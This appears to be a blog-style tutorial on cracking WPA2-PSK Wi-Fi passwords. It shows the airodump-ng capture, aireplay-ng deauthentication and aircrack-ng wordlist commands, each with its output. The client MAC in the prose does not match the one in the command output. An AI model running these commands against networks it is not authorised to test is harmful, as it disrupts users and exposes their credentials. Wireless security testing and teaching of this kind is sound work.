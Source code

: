 ```yaml
---
description: >-
  Cracking Hashes
title:  Cracking Hashes      # Add title here
date: 2023-09-27 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Wireless Attacks]                     # Change Templates to Writeup
tags: [wireless, cracking hashes]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Methodology

First, we'll need to capture a handshake. 
Next, we will make a guess at the passphrase and send that guess into the hash function. 
We will then compare the output from the hash function to the handshake.

### Capturing the Handshake

We will identify the channel of the target AP and gather its BSSID to limit our capture with airodump-ng.
```bash
sudo airodump-ng wlan0
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 XX:XX:XX:XX:XX:XX  -67        4        0    0  11  720   WPA2 CCMP   PSK  PUMA5_GOL   
 XX:XX:XX:XX:XX:XX  -69        4        0    0   8  130   WPA2 CCMP   PSK  Total play may
 XX:XX:XX:XX:XX:XX  -71        3        0    0   2  130   OPN              ClubTotalplay_WiFi_2.4G
 XX:XX:XX:XX:XX:XX  -49       28        0    0  11  195   WPA2 CCMP   PSK  TOTALPLAY_220C3C       
 XX:XX:XX:XX:XX:XX  -61       12        0    0  11  130   WPA2 CCMP   PSK  INFINITUM37FA 
 XX:XX:XX:XX:XX:XX  -67       13        0    0  11  130   WPA2 CCMP   PSK  IZZI-F0AC   
 XX:XX:XX:XX:XX:XX  -38       24        3    0  11  195   WPA2 CCMP   PSK  IZZI-F0AC   
 XX:XX:XX:XX:XX:XX  -68        3        0    0   6  130   OPN              MXConectado-E 
 XX:XX:XX:XX:XX:XX  -66        4        0    0   6  540   WPA2 CCMP   PSK  IZZI-D49A   
 XX:XX:XX:XX:XX:XX  -61       13        1    0   8  130   WPA2 CCMP   PSK  INFINITUM1500 
 7C:13:1D:B2:3D:A4  -29       42       19    0   5  130   WPA2 CCMP   PSK  Not_Of_Your_Buzzinez <----
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -67    0 - 1e     0        1
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -69    1e- 1e     0        3
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -69    0 - 1e     0        2
 7C:13:1D:B2:3D:A4  1E:F4:C6:7B:66:C1  -32    0 - 1e     0        1 <----
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -71    0 - 1e   502        6
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX   -1    1e- 0      0       72                   
```
Our target is the 'Not_Of_Your_Buzzinez' AP, which operates on channel 5. Its BSSID is 7C:13:1D:B2:3D:A4 and it has one client with a MAC address of 00:18:4D:1D:A8:1F. The AUTH column shows the AP has an authentication type of PSK. This is a good sign. aircrack-ng does not work when the authentication is Enterprise (MGT), as it requires a different set of tools. Opportunistic Wireless Encryption cannot be cracked yet.

Then we proceed to capture the packet as follows:
```bash
sudo airodump-ng -c 5 -w wpa --essid 'Not_Of_Your_Buzzinez' --bssid 7C:13:1D:B2:3D:A4 wlan0
```

With the airodump-ng running we then proceed to deauthenticate the user from the AP with aireplay-ng. We'll use the -0 1 option to deauthenticate once, and -a to target our BSSID. We'll use -c to identify the associated client, and finally specify wlan0mon for our listening interface.
```bash
sudo aireplay-ng -0 1 -a 7C:13:1D:B2:3D:A4 -c 1E:F4:C6:7B:66:C1 wlan0
13:30:30  Waiting for beacon frame (BSSID: 7C:13:1D:B2:3D:A4) on channel 1
13:30:30  Sending 64 directed DeAuth (code 7). STMAC: [1E:F4:C6:7B:66:C1] [ 0| 0 ACKs]

```
Aireplay-ng checks that the BSSID exists before sending the deauthentication packets. Once the client reconnects with the target AP, airodump-ng will be able to capture a handshake.
```bash
CH  5 ][ Elapsed: 52 s ][ 2020-02-29 13:31 ][ WPA handshake: 1E:F4:C6:7B:66:C1
```

### Cracking the Hash

Now that we have captured a handshake, cracking it is relatively easy. We run aircrack-ng against our recently created capture file, wpa-01.cap. We'll use a list of commonly used passwords, also known as a wordlist, located at /usr/share/john/password.lst. We'll use -w to specify the path to our wordlist. Next, we'll use -e to indicate which ESSID to target, and then -b to specify the BSSID.

```bash
aircrack-ng -w /usr/share/john/password.lst -e 'Not_Of_Your_Buzzinez' -b 7C:13:1D:B2:3D:A4 wpa-01.cap
                               Aircrack-ng 1.7 

      [00:00:00] 2/5 keys tested (214.45 k/s) 

      Time left: 0 seconds                                      40.00%

                      KEY FOUND! [ Th1s1s0bvi0uslyN0tTh3P4ssw0rd ]


      Master Key     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 

      Transient Key  : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 

      EAPOL HMAC     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX
```